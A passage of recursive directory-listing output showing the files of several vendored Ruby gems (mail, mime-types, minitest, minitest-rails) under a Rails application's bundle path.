-rw-r--r--  1 rails rails  782 Sep 16  2016 content_location_field.rb
-rw-r--r--  1 rails rails  935 Sep 16  2016 content_transfer_encoding_field.rb
-rw-r--r--  1 rails rails 5.0K Sep 16  2016 content_type_field.rb
-rw-r--r--  1 rails rails 1.6K Sep 16  2016 date_field.rb
-rw-r--r--  1 rails rails 1.8K Sep 16  2016 from_field.rb
-rw-r--r--  1 rails rails 1.8K Sep 16  2016 in_reply_to_field.rb
-rw-r--r--  1 rails rails  851 Sep 16  2016 keywords_field.rb
-rw-r--r--  1 rails rails 2.3K Sep 16  2016 message_id_field.rb
-rw-r--r--  1 rails rails  912 Sep 16  2016 mime_version_field.rb
-rw-r--r--  1 rails rails  320 Sep 16  2016 optional_field.rb
-rw-r--r--  1 rails rails 1.7K Sep 16  2016 received_field.rb
-rw-r--r--  1 rails rails 1.8K Sep 16  2016 references_field.rb
-rw-r--r--  1 rails rails 1.9K Sep 16  2016 reply_to_field.rb
-rw-r--r--  1 rails rails 1.9K Sep 16  2016 resent_bcc_field.rb
-rw-r--r--  1 rails rails 1.9K Sep 16  2016 resent_cc_field.rb
-rw-r--r--  1 rails rails  796 Sep 16  2016 resent_date_field.rb
-rw-r--r--  1 rails rails 1.9K Sep 16  2016 resent_from_field.rb
-rw-r--r--  1 rails rails  675 Sep 16  2016 resent_message_id_field.rb
-rw-r--r--  1 rails rails 1.9K Sep 16  2016 resent_sender_field.rb
-rw-r--r--  1 rails rails 1.9K Sep 16  2016 resent_to_field.rb
-rw-r--r--  1 rails rails 1.7K Sep 16  2016 return_path_field.rb
-rw-r--r--  1 rails rails 1.8K Sep 16  2016 sender_field.rb
-rw-r--r--  1 rails rails 1.5K Sep 16  2016 structured_field.rb
-rw-r--r--  1 rails rails  375 Sep 16  2016 subject_field.rb
-rw-r--r--  1 rails rails 1.7K Sep 16  2016 to_field.rb
-rw-r--r--  1 rails rails 6.4K Sep 16  2016 unstructured_field.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/mail-2.6.3/lib/mail/fields/common:
total 32K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  204 Sep 16  2016 address_container.rb
-rw-r--r-- 1 rails rails 3.7K Sep 16  2016 common_address.rb
-rw-r--r-- 1 rails rails  625 Sep 16  2016 common_date.rb
-rw-r--r-- 1 rails rails  950 Sep 16  2016 common_field.rb
-rw-r--r-- 1 rails rails  900 Sep 16  2016 common_message_id.rb
-rw-r--r-- 1 rails rails 1.7K Sep 16  2016 parameter_hash.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/mail-2.6.3/lib/mail/matchers:
total 16K
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 12 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails 4.3K Sep 16  2016 has_sent_mail.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/mail-2.6.3/lib/mail/multibyte:
total 52K
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 12 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails  18K Sep 16  2016 chars.rb
-rw-r--r--  1 rails rails  179 Sep 16  2016 exceptions.rb
-rw-r--r--  1 rails rails  15K Sep 16  2016 unicode.rb
-rw-r--r--  1 rails rails 1.7K Sep 16  2016 utils.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/mail-2.6.3/lib/mail/network:
total 16K
drwxrwxr-x  4 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 12 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 delivery_methods
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 retriever_methods

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/mail-2.6.3/lib/mail/network/delivery_methods:
total 36K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 1.3K Sep 16  2016 exim.rb
-rw-r--r-- 1 rails rails 1.3K Sep 16  2016 file_delivery.rb
-rw-r--r-- 1 rails rails 2.7K Sep 16  2016 sendmail.rb
-rw-r--r-- 1 rails rails 1.9K Sep 16  2016 smtp_connection.rb
-rw-r--r-- 1 rails rails 5.0K Sep 16  2016 smtp.rb
-rw-r--r-- 1 rails rails 1.2K Sep 16  2016 test_mailer.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/mail-2.6.3/lib/mail/network/retriever_methods:
total 32K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 2.0K Sep 16  2016 base.rb
-rw-r--r-- 1 rails rails 7.5K Sep 16  2016 imap.rb
-rw-r--r-- 1 rails rails 5.2K Sep 16  2016 pop3.rb
-rw-r--r-- 1 rails rails 1.2K Sep 16  2016 test_retriever.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/mail-2.6.3/lib/mail/parsers:
total 60K
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 12 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails 4.0K Sep 16  2016 address_lists_parser.rb
-rw-r--r--  1 rails rails 2.0K Sep 16  2016 content_disposition_parser.rb
-rw-r--r--  1 rails rails 1014 Sep 16  2016 content_location_parser.rb
-rw-r--r--  1 rails rails  934 Sep 16  2016 content_transfer_encoding_parser.rb
-rw-r--r--  1 rails rails 2.0K Sep 16  2016 content_type_parser.rb
-rw-r--r--  1 rails rails  873 Sep 16  2016 date_time_parser.rb
-rw-r--r--  1 rails rails 1.3K Sep 16  2016 envelope_from_parser.rb
-rw-r--r--  1 rails rails 1009 Sep 16  2016 message_ids_parser.rb
-rw-r--r--  1 rails rails 1.1K Sep 16  2016 mime_version_parser.rb
-rw-r--r--  1 rails rails  829 Sep 16  2016 phrase_lists_parser.rb
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 ragel
-rw-r--r--  1 rails rails  353 Sep 16  2016 ragel.rb
-rw-r--r--  1 rails rails 1.4K Sep 16  2016 received_parser.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/mail-2.6.3/lib/mail/parsers/ragel:
total 32K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 7.1K Sep 16  2016 common.rl
-rw-r--r-- 1 rails rails 1.1K Sep 16  2016 date_time.rl
-rw-r--r-- 1 rails rails 1.4K Sep 16  2016 parser_info.rb
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ruby
-rw-r--r-- 1 rails rails 1.3K Sep 16  2016 ruby.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/mail-2.6.3/lib/mail/parsers/ragel/ruby:
total 16K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 machines
-rw-r--r-- 1 rails rails  709 Sep 16  2016 parser.rb.rl.erb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/mail-2.6.3/lib/mail/parsers/ragel/ruby/machines:
total 1.1M
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 558K Sep 16  2016 address_lists_machine.rb
-rw-r--r-- 1 rails rails  697 Sep 16  2016 address_lists_machine.rb.rl
-rw-r--r-- 1 rails rails  22K Sep 16  2016 content_disposition_machine.rb
-rw-r--r-- 1 rails rails  715 Sep 16  2016 content_disposition_machine.rb.rl
-rw-r--r-- 1 rails rails  17K Sep 16  2016 content_location_machine.rb
-rw-r--r-- 1 rails rails  706 Sep 16  2016 content_location_machine.rb.rl
-rw-r--r-- 1 rails rails  13K Sep 16  2016 content_transfer_encoding_machine.rb
-rw-r--r-- 1 rails rails  732 Sep 16  2016 content_transfer_encoding_machine.rb.rl
-rw-r--r-- 1 rails rails  23K Sep 16  2016 content_type_machine.rb
-rw-r--r-- 1 rails rails  694 Sep 16  2016 content_type_machine.rb.rl
-rw-r--r-- 1 rails rails  23K Sep 16  2016 date_time_machine.rb
-rw-r--r-- 1 rails rails  685 Sep 16  2016 date_time_machine.rb.rl
-rw-r--r-- 1 rails rails  67K Sep 16  2016 envelope_from_machine.rb
-rw-r--r-- 1 rails rails  697 Sep 16  2016 envelope_from_machine.rb.rl
-rw-r--r-- 1 rails rails  48K Sep 16  2016 message_ids_machine.rb
-rw-r--r-- 1 rails rails  691 Sep 16  2016 message_ids_machine.rb.rl
-rw-r--r-- 1 rails rails  12K Sep 16  2016 mime_version_machine.rb
-rw-r--r-- 1 rails rails  694 Sep 16  2016 mime_version_machine.rb.rl
-rw-r--r-- 1 rails rails  15K Sep 16  2016 phrase_lists_machine.rb
-rw-r--r-- 1 rails rails  694 Sep 16  2016 phrase_lists_machine.rb.rl
-rw-r--r-- 1 rails rails 2.1K Sep 16  2016 rb_actions.rl
-rw-r--r-- 1 rails rails 176K Sep 16  2016 received_machine.rb
-rw-r--r-- 1 rails rails  683 Sep 16  2016 received_machine.rb.rl

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/mail-2.6.3/lib/mail/values:
total 892K
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 12 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails 884K Sep 16  2016 unicode_tables.dat

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/mail-2.6.3/lib/mail/version_specific:
total 20K
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 12 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails 3.2K Sep 16  2016 ruby_1_8.rb
-rw-r--r--  1 rails rails 5.8K Sep 16  2016 ruby_1_9.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/mime-types-2.6.2:
total 120K
drwxrwxr-x  7 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 50 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails  688 Sep 16  2016 .autotest
-rw-r--r--  1 rails rails 5.4K Sep 16  2016 Contributing.rdoc
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 data
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 docs
-rw-r--r--  1 rails rails    0 Sep 16  2016 .gemtest
-rw-r--r--  1 rails rails  125 Sep 16  2016 .gitignore
-rw-r--r--  1 rails rails  27K Sep 16  2016 History.rdoc
-rw-r--r--  1 rails rails  15K Sep 16  2016 History-Types.rdoc
-rw-r--r--  1 rails rails  243 Sep 16  2016 .hoerc
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 lib
-rw-r--r--  1 rails rails 1.8K Sep 16  2016 Licence.rdoc
-rw-r--r--  1 rails rails 1.2K Sep 16  2016 Manifest.txt
-rw-r--r--  1 rails rails 4.9K Sep 16  2016 Rakefile
-rw-r--r--  1 rails rails  11K Sep 16  2016 README.rdoc
drwxrwxr-x  4 rails rails 4.0K Sep 16  2016 support
drwxrwxr-x  4 rails rails 4.0K Sep 16  2016 test

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/mime-types-2.6.2/data:
total 968K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 7 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  58K Sep 16  2016 mime.content_type.column
-rw-r--r-- 1 rails rails 3.9K Sep 16  2016 mime.docs.column
-rw-r--r-- 1 rails rails  14K Sep 16  2016 mime.encoding.column
-rw-r--r-- 1 rails rails  21K Sep 16  2016 mime.friendly.column
-rw-r--r-- 1 rails rails 3.8K Sep 16  2016 mime.obsolete.column
-rw-r--r-- 1 rails rails 186K Sep 16  2016 mime.references.column
-rw-r--r-- 1 rails rails 3.8K Sep 16  2016 mime.registered.column
-rw-r--r-- 1 rails rails 3.8K Sep 16  2016 mime.signature.column
-rw-r--r-- 1 rails rails 3.8K Sep 16  2016 mime.system.column
-rw-r--r-- 1 rails rails 553K Sep 16  2016 mime-types.json
-rw-r--r-- 1 rails rails 5.0K Sep 16  2016 mime.use_instead.column
-rw-r--r-- 1 rails rails  88K Sep 16  2016 mime.xrefs.column

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/mime-types-2.6.2/docs:
total 36K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 7 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 6.2K Sep 16  2016 artistic.txt
-rw-r--r-- 1 rails rails  19K Sep 16  2016 COPYING.txt

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/mime-types-2.6.2/lib:
total 16K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 7 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 mime
-rw-r--r-- 1 rails rails   53 Sep 16  2016 mime-types.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/mime-types-2.6.2/lib/mime:
total 56K
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 type
-rw-r--r-- 1 rails rails  26K Sep 16  2016 type.rb
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 types
-rw-r--r-- 1 rails rails  11K Sep 16  2016 types.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/mime-types-2.6.2/lib/mime/type:
total 12K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 3.3K Sep 16  2016 columnar.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/mime-types-2.6.2/lib/mime/types:
total 40K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 2.8K Sep 16  2016 cache.rb
-rw-r--r-- 1 rails rails 3.4K Sep 16  2016 columnar.rb
-rw-r--r-- 1 rails rails 1.5K Sep 16  2016 deprecations.rb
-rw-r--r-- 1 rails rails  628 Sep 16  2016 loader_path.rb
-rw-r--r-- 1 rails rails 8.6K Sep 16  2016 loader.rb
-rw-r--r-- 1 rails rails  729 Sep 16  2016 logger.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/mime-types-2.6.2/support:
total 32K
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 7 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 2.5K Sep 16  2016 apache_mime_types.rb
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 benchmarks
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 convert
-rw-r--r-- 1 rails rails 3.8K Sep 16  2016 convert.rb
-rw-r--r-- 1 rails rails 4.1K Sep 16  2016 iana_registry.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/mime-types-2.6.2/support/benchmarks:
total 20K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 2.2K Sep 16  2016 load_allocations.rb
-rw-r--r-- 1 rails rails 1.8K Sep 16  2016 load.rb
-rw-r--r-- 1 rails rails  751 Sep 16  2016 object_counts.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/mime-types-2.6.2/support/convert:
total 12K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 2.1K Sep 16  2016 columnar.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/mime-types-2.6.2/test:
total 72K
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 7 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 bad-fixtures
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 fixture
-rw-r--r-- 1 rails rails  435 Sep 16  2016 minitest_helper.rb
-rw-r--r-- 1 rails rails  22K Sep 16  2016 test_mime_type.rb
-rw-r--r-- 1 rails rails 2.4K Sep 16  2016 test_mime_types_cache.rb
-rw-r--r-- 1 rails rails 4.3K Sep 16  2016 test_mime_types_class.rb
-rw-r--r-- 1 rails rails 1.4K Sep 16  2016 test_mime_types_lazy.rb
-rw-r--r-- 1 rails rails 1.9K Sep 16  2016 test_mime_types_loader.rb
-rw-r--r-- 1 rails rails 4.1K Sep 16  2016 test_mime_types.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/mime-types-2.6.2/test/bad-fixtures:
total 12K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  484 Sep 16  2016 malformed

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/mime-types-2.6.2/test/fixture:
total 20K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 1.3K Sep 16  2016 json.json
-rw-r--r-- 1 rails rails  484 Sep 16  2016 old-data
-rw-r--r-- 1 rails rails 1.5K Sep 16  2016 yaml.yaml

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/mini_portile-0.6.2:
total 36K
drwxrwxr-x  4 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 50 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 examples
-rw-r--r--  1 rails rails 2.5K Sep 16  2016 History.txt
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 lib
-rw-r--r--  1 rails rails 1.1K Sep 16  2016 LICENSE.txt
-rw-r--r--  1 rails rails 1.5K Sep 16  2016 Rakefile
-rw-r--r--  1 rails rails 5.5K Sep 16  2016 README.rdoc

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/mini_portile-0.6.2/examples:
total 12K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 2.6K Sep 16  2016 Rakefile

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/mini_portile-0.6.2/lib:
total 20K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  11K Sep 16  2016 mini_portile.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/minitest-5.8.1:
total 92K
drwxrwxr-x  4 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 50 rails rails 4.0K Sep 16  2016 ..
-r--r--r--  1 rails rails 1.1K Sep 16  2016 .autotest
-r--r--r--  1 rails rails 1.9K Sep 16  2016 design_rationale.rb
-r--r--r--  1 rails rails  35K Sep 16  2016 History.rdoc
drwxrwxr-x  4 rails rails 4.0K Sep 16  2016 lib
-r--r--r--  1 rails rails  619 Sep 16  2016 Manifest.txt
-r--r--r--  1 rails rails 2.0K Sep 16  2016 Rakefile
-r--r--r--  1 rails rails  23K Sep 16  2016 README.rdoc
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 test

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/minitest-5.8.1/lib:
total 36K
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 hoe
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 minitest
-r--r--r-- 1 rails rails  19K Sep 16  2016 minitest.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/minitest-5.8.1/lib/hoe:
total 12K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
-r--r--r-- 1 rails rails  614 Sep 16  2016 minitest.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/minitest-5.8.1/lib/minitest:
total 100K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
-r--r--r-- 1 rails rails  18K Sep 16  2016 assertions.rb
-r--r--r-- 1 rails rails  171 Sep 16  2016 autorun.rb
-r--r--r-- 1 rails rails  12K Sep 16  2016 benchmark.rb
-r--r--r-- 1 rails rails 5.8K Sep 16  2016 expectations.rb
-r--r--r-- 1 rails rails  178 Sep 16  2016 hell.rb
-r--r--r-- 1 rails rails 6.5K Sep 16  2016 mock.rb
-r--r--r-- 1 rails rails 1.5K Sep 16  2016 parallel.rb
-r--r--r-- 1 rails rails 3.1K Sep 16  2016 pride_plugin.rb
-r--r--r-- 1 rails rails   67 Sep 16  2016 pride.rb
-r--r--r-- 1 rails rails 8.5K Sep 16  2016 spec.rb
-r--r--r-- 1 rails rails 6.8K Sep 16  2016 test.rb
-r--r--r-- 1 rails rails 1.3K Sep 16  2016 unit.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/minitest-5.8.1/test:
total 12K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 minitest

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/minitest-5.8.1/test/minitest:
total 108K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-r--r--r-- 1 rails rails 2.0K Sep 16  2016 metametameta.rb
-r--r--r-- 1 rails rails 3.4K Sep 16  2016 test_minitest_benchmark.rb
-r--r--r-- 1 rails rails  10K Sep 16  2016 test_minitest_mock.rb
-r--r--r-- 1 rails rails 5.0K Sep 16  2016 test_minitest_reporter.rb
-r--r--r-- 1 rails rails  25K Sep 16  2016 test_minitest_spec.rb
-r--r--r-- 1 rails rails  42K Sep 16  2016 test_minitest_unit.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/minitest-rails-2.2.0:
total 72K
drwxrwxr-x  6 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 50 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails  480 Sep 16  2016 .autotest
-rw-r--r--  1 rails rails 5.7K Sep 16  2016 CHANGELOG.rdoc
-rw-r--r--  1 rails rails  154 Sep 16  2016 Gemfile
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 gemfiles
-rw-r--r--  1 rails rails    0 Sep 16  2016 .gemtest
drwxrwxr-x  4 rails rails 4.0K Sep 16  2016 lib
-rw-r--r--  1 rails rails 1.1K Sep 16  2016 LICENSE
-rw-r--r--  1 rails rails 3.3K Sep 16  2016 Manifest.txt
-rw-r--r--  1 rails rails 5.2K Sep 16  2016 minitest-rails.gemspec
-rw-r--r--  1 rails rails  657 Sep 16  2016 Rakefile
-rw-r--r--  1 rails rails 4.5K Sep 16  2016 README.rdoc
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 tasks
drwxrwxr-x  4 rails rails 4.0K Sep 16  2016 test
-rw-r--r--  1 rails rails  499 Sep 16  2016 .travis.yml

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/minitest-rails-2.2.0/gemfiles:
total 16K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails   79 Sep 16  2016 4.1.gemfile
-rw-r--r-- 1 rails rails   79 Sep 16  2016 4.2.gemfile

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/minitest-rails-2.2.0/lib:
total 20K
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 generators
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 minitest
-rw-r--r-- 1 rails rails   66 Sep 16  2016 minitest-rails.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/minitest-rails-2.2.0/lib/generators:
total 16K
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x  4 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails    0 Sep 16  2016 .document
drwxrwxr-x 12 rails rails 4.0K Sep 16  2016 minitest
-rw-r--r--  1 rails rails  412 Sep 16  2016 minitest.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/minitest-rails-2.2.0/lib/generators/minitest:
total 48K
drwxrwxr-x 12 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 controller
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 generator
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 helper
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 install
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 integration
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 job
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 mailer
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 model
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 route
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 scaffold

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/minitest-rails-2.2.0/lib/generators/minitest/controller:
total 16K
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 12 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails  561 Sep 16  2016 controller_generator.rb
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 templates

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/minitest-rails-2.2.0/lib/generators/minitest/controller/templates:
total 16K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  364 Sep 16  2016 controller_spec.rb
-rw-r--r-- 1 rails rails  361 Sep 16  2016 controller_test.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/minitest-rails-2.2.0/lib/generators/minitest/generator:
total 16K
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 12 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails  915 Sep 16  2016 generator_generator.rb
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 templates

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/minitest-rails-2.2.0/lib/generators/minitest/generator/templates:
total 16K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  335 Sep 16  2016 generator_spec.rb
-rw-r--r-- 1 rails rails  384 Sep 16  2016 generator_test.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/minitest-rails-2.2.0/lib/generators/minitest/helper:
total 16K
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 12 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails  463 Sep 16  2016 helper_generator.rb
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 templates

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/minitest-rails-2.2.0/lib/generators/minitest/helper/templates:
total 16K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  167 Sep 16  2016 helper_spec.rb
-rw-r--r-- 1 rails rails  176 Sep 16  2016 helper_test.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/minitest-rails-2.2.0/lib/generators/minitest/install:
total 16K
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 12 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails  564 Sep 16  2016 install_generator.rb
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 templates

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/minitest-rails-2.2.0/lib/generators/minitest/install/templates:
total 12K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  625 Sep 16  2016 test_helper.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/minitest-rails-2.2.0/lib/generators/minitest/integration:
total 16K
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 12 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails  467 Sep 16  2016 integration_generator.rb
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 templates

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/minitest-rails-2.2.0/lib/generators/minitest/integration/templates:
total 16K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
